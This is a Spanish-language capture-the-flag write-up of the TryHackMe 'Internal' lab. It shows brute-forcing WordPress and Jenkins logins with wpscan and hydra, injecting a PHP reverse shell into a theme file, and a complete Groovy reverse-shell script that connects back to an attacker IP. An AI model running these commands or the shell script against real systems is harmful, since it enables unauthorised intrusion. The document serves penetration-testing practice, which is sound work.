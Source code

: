 ```yaml
---
title:  CTF TryHackme Internal
tags:
  - Misconfigurations
  - Tryhackme
  - Linux
---
```


<div class="card mb-3">
    <center>
            <img class="card-img-top" src="/theme/img/THM/Internal/titulo_internal.jpeg"/>
    </center>
</div>

Máquina: Linux

IP: 10.10.246.4

Creada por TheMayor

<!--more-->

## User flag

Se realiza un reconocimiento para ver qué puertos tiene abiertos la máquina usando **nmap**:

```bash
nmap -p- 10.10.246.4
```
<div class="card mb-3">
    <center>
            <img class="card-img" src="/theme/img/THM/Internal/nmap.png"/>
    </center>
</div>

Se realiza una búsqueda de directorios ocultos que pueda contener la web con **gobuster**:

<div class="card mb-3">
    <center>
            <img class="card-img" src="/theme/img/THM/Internal/gobuster.png"/>
    </center>
</div>

Se observa que utiliza Wordpress para la página y phpmyadmin para la base de datos. La página principal se encuentra en /blog. Se analiza la página y no se encuentra nada relevante, ni siquiera ejecutando el wpscan se haya vulnerabilidad con posibilidad de explotarla. Se intenta un ataque de fuerza bruta contra el login con **wpscan**.

```bash
wpscan --url http://10.10.246.4/wordpress -p /usr/share/wordlist/rockyou.txt
```

<div class="card mb-3">
    <center>
            <img class="card-img" src="/theme/img/THM/Internal/wpscan.png"/>
    </center>
</div>

Con suerte, se obtiene la contraseña de admin y se inicia sesión en wp-admin. Una vez dentro, se inspecciona los plugins, themes, posts que tiene subidos y se encuentra en un post privado, las credenciales de un usuario que de momento no sabemos para que sirve.

<div class="card mb-3">
    <center>
            <img class="card-img" src="/theme/img/THM/Internal/credentials.png"/>
    </center>
</div>

Para obtener una reverse shell mediante Wordpress, se utiliza la pestaña Appearance > Theme Editor para editar un fichero PHP de cualquier tema que esté descargado en el sistema. Por ejemplo, se modifica el fichero header.php y se inyecta una [reverse shell en PHP](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), cambiando la IP y el puerto por el que especifiquemos en el netcat de nuestro equipo. Una vez hecho esto, se pincha en "Update file" y se solicita el recurso de la ruta de dicho archivo:

`internal.thm/blog/wp-content/themes/twentyseventeen/header.php`

<div class="card mb-3">
    <center>
            <img class="card-img" src="/theme/img/THM/Internal/wwwdata.png"/>
    </center>
</div>

Se obtiene una shell con el usuario **www-data** y en la carpeta /home, se ve que hay un usuario llamado aubreanna.

Para elevar privilegios o realizar un movimiento lateral a otro usuario. Se puede usar **linpeas**, pero no se encontró nada interesante. En la carpeta /opt, se encontró un fichero wp-save.txt que tenía las credenciales del usuario aubreanna.

<div class="card mb-3">
    <center>
            <img class="card-img" src="/theme/img/THM/Internal/wp-save.png"/>
    </center>
</div>

Se utiliza SSH para conectarse con el usuario aubreanna al sistema y la flag se encuentra en el propio home.

## Root flag

En el directorio home se encuentra además de la flag, un fichero jenkins.txt que contiene **"Internal Jenkins service is running on 172.17.0.2:8080"**. Lo que quiere decir que este puerto está capado por el firewall ya que no apareció con el nmap, por lo tanto se crea untúnel SSH para poder ver que se está ejecutando en el puerto 8080.

```bash
ssh -R 1234:localhost:8080 user@10.11.22.147
```

Ahora a través de 127.0.0.1:1234, se puede acceder al servidor Jenkins. En la página se encuentra el logeo para entrar al panel de Jenkins, con las credenciales por defecto no hubo suerte, por lo que se prueba a utilizar fuerza bruta con el usuario admin.

```bash
hydra -l admin -P /usr/share/wordlist/rockyou.txt 127.0.0.1 -s 1234 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password" -V
```

En un rato, se conseguira la contraseña del usuario admin.

<div class="card mb-3">
    <center>
            <img class="card-img" src="/theme/img/THM/Internal/hydra.png"/>
    </center>
</div>

Una vez dentro, investigando por Internet, se descubrió una manera de obtener una reverse shell en Jenkins. Desde el Script Console se puede ejecutar el siguiente script Groovy que nos cree una reverse shell.

```groovy
String host="10.11.22.147";
int port=1235;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(),
si=s.getInputStream();OutputStream
po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.availabl
e()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>
0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Se obtiene una shell bastante incómoda con el usuario **jenkins**. Es importante mencionar que el servidor Jenkins está corriendo en un docker por lo que es un sistema completamente distinto al del "real". Si miramos en /opt, se encontrará un fichero llamado note.txt que contiene las credenciales de root.

<div class="card mb-3">
    <center>
            <img class="card-img" src="/theme/img/THM/Internal/note.png"/>
    </center>
</div>

Desde la sesión de SSH que se tenía con el usuario aubreanna nos pasamos al usuario root y en la ruta /root, se encuentra la flag root.

<div class="card mb-3">
    <center>
            <img class="card-img" src="/theme/img/THM/Internal/rootflag.png"/>
    </center>
</div>

## Bibliografía

[Abusing Jenkins Groovy Script COnsole to get Shell](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)
